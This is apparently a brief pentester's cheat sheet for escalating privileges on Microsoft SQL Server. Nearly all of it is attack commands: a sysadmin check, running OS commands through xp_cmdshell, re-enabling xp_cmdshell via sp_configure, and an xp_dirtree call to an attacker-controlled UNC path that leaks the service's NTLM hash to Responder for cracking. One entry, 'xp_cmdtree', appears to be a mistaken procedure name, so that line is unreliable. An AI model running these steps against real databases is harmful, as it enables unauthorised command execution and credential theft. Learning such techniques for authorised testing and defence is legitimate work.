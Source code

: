 # MSsql Escalation

## Basic Information

select @@version; # version of ms_sql
SELECT is_srvrolemember('sysadmin'); #checks if we are admin
select system_user; # returns the current user in the db


## Try to get access to xp_cmdshell

Use shell commands

	EXEC xp_cmdshell 'net user'; # This allows us to execute commands.
	exec xp_cmdtree 'whoami'; # This allows us to execute commands.
	exec xp_dirtree 'c:\'; # Checks if we can list files
	if this is successful we can now try to do a request back to us
	exec xp_dirtree '\\our_ip\test\test';
	we can check if we receive the request with nc. This request will attempt a ntlm authentication, so we can start responder to get the hash and then try to crack it


If we cant use it we need to activate it.

	EXEC sp_configure 'show advanced options', 1;
	RECONFIGURE;
	EXEC sp_configure 'xp_cmdshell', 1;
	RECONFIGURE;



## Relevant Information

	https://book.hacktricks.xyz/network-services-pentesting/pentesting-mssql-microsoft-sql-server